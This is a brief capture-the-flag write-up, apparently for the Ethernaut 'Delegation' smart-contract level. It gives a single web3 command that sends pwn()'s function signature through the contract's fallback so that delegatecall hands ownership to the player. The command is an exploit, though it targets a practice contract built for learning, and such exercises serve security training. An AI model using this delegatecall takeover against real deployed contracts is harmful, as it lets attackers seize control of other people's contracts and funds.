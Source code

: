 # Deligation

Just use the fallback function in the Delegation contract to delegate call function "pwn()".

`contract.sendTransaction({from:player,data:web3.eth.abi.encodeFunctionSignature("pwn()")})`
